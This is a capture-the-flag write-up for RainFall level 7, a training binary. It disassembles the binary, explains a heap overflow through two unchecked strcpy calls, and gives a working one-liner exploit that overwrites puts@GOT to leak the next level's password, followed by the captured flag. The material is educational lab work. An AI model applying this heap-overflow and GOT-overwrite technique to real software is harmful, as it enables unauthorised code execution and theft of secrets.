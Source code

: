 # **Level7**

In this level, we found a binary file that takes two arguments:

```bash
level7@RainFall:~$ ./level7 eeee
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 eeee eeee
~~
level7@RainFall:~$
```

## **Binary Analysis**

Using GDB, we analyzed the binary and discovered that the `main` function allocates memory, copies input, and performs file operations:

```nasm
# First pair of mallocs
0x0804852a <+9>:     movl   $0x8,(%esp)        ; malloc(8) - struct1
0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
0x0804853e <+29>:    movl   $0x1,(%eax)        ; struct1->id = 1
0x08048544 <+35>:    movl   $0x8,(%esp)        ; malloc(8) - struct1->str
0x0804854b <+42>:    call   0x80483f0 <malloc@plt>

# Second pair of mallocs
0x08048559 <+56>:    movl   $0x8,(%esp)        ; malloc(8) - struct2
0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
0x0804856d <+76>:    movl   $0x2,(%eax)        ; struct2->id = 2
0x08048573 <+82>:    movl   $0x8,(%esp)        ; malloc(8) - struct2->str
0x0804857a <+89>:    call   0x80483f0 <malloc@plt>

# First strcpy
0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>   ; strcpy(struct1->str, argv[1])

# Second strcpy
0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>   ; strcpy(struct2->str, argv[2])

# File operations
0x080485c2 <+161>:	mov    $0x80486e9,%edx ; "r"
0x080485c7 <+166>:	mov    $0x80486eb,%eax ; "/home/user/level8/.pass"
0x080485d3 <+178>:   call   0x8048430 <fopen@plt>    ; fopen("/home/user/level8/.pass", "r")
0x080485eb <+202>:   call   0x80483c0 <fgets@plt>    ; fgets(global_buffer, 68, fp)
```

**Available Functions**

Listing all functions reveals another function, `m`, which prints the global buffer along with the current timestamp:

```nasm
0x080484f4 <m>:      push   %ebp
0x080484fa <+6>:     movl   $0x0,(%esp)
0x08048501 <+13>:    call   0x80483d0 <time@plt>
0x0804850b <+23>:    mov    %eax,0x8(%esp)
0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)     ; Global buffer
0x08048517 <+35>:    mov    %edx,(%esp)
0x0804851a <+38>:    call   0x80483b0 <printf@plt>   ; printf(format, buffer, time)
```

## **Vulnerability**

The program contains two vulnerabilities:

1. **Unsafe `strcpy`:** Both calls to `strcpy` allow heap overflow because they lack bounds checking.
2. **Global buffer overwrite:** Through heap overflow, the global buffer (`global_buffer`) can be overwritten.

## Exploit

**Exploitation Plan**

1. Use the first `strcpy` to overflow and overwrite the second struct's string pointer, pointing it to the GOT entry of `puts`.
2. Use the second `strcpy` to overwrite the GOT entry of `puts` with the address of function `m` , because `m` prints the same buffer `0x8049960` where `fgets` stores the contents read from the file `.pass`.
3. When `puts("~~")` is called, it will invoke `m` instead, which prints the password from the global buffer.

**Calculating the Offset**

To overwrite `struct2->str` we need to:

1. Fill `struct1->str` buffer (8 bytes).
2. Overwrite heap metadata (8 bytes).
3. Cross `struct2` until its pointer (4 bytes).

```python
# Target addresses
puts_got = "\x28\x99\x04\x08"    # Address of puts@GOT (0x08049928)
m_addr = "\xf4\x84\x04\x08"      # Address of function m (0x080484f4)

# First argument: Overflow to overwrite struct2 pointer
arg1 = "A" * 20 + puts_got       # 20 bytes padding + puts@GOT address

# Second argument: Address of function m
arg2 = m_addr
```

1. Run the exploit:
    
    ```bash
    ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
    ```
    
2. Result:
    
    ```bash
    level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
    ```
    

## **Flag**

```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```